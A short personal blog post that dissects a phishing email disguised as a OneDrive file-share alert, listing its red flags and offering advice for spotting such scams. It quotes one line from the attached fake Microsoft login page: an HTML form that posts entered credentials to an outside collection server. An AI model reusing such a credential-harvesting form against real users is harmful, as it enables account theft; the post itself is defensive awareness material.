 .. meta::
   :description: The email body is as the following <your email id> has recieved a file to your onedrive “2023 Contract Agreement .xlsx” When and where did this happen Date:4/13

Today's phishing email (Subject    Re: Contract Lease Agreement)
======================================================================
.. post:: 14, Apr, 2023
   :category: Uncategorized
   :author: me
   :nocomments:

The email body is as the following

   **<your email id>  has recieved a file to your onedrive "2023 Contract
   Agreement .xlsx**"

   When and where did this happen

   Date:4/13/2023 4:50:56 p.m.

   Browser: Chrome

   Operating System: Windows 10

   *You are receiving this information because someone shared a file to
   your OneDrive.See details in the attached file*.

   I have marked red flags with red background.

   1 Microsoft does not address you by your login. Microsoft has your name
   and prefix/suffix info. 

   2 Microsoft would not misspell words.

   3 Microsoft would not ask to open attachment.

the Microsoft Message Header Analyzer tool (mha.azurewebsites.net) has
the correct Received Headers, which means the sender address is not
spoofed. That means, unfortunately, the sender address is compromised.
It is easy to see why:

The attachment is a fake Microsoft login page that looks exactly like
the real one. However the address bar is a local file (where the
attached file is) instead of Microsoft’s domain (address bar may be
hidden on mobile browsers). If Microsoft wants you to login, it would
simply link to a Microsoft owned address.

In the source code of the attachment you can see the following section:

<form action="https://4f-ip.com/sharepoint%20(1)%20(2).php"
autocomplete="" method="post">

the victim who open the attachment and blindly entered Microsoft account
and password would have login info sent to the hacker’s address instead.

Moral of the story:

* Do not interact with email addressing you by login name (Equifax leaked names of half of US population so this is not exactly fool-proof).
* Check for misspellings.
* Do not interact with emails with attachments unless you can verify the sender is legitimate.
* Do not open attachments from strangers if possible.
* Always check the address bar before entering password.

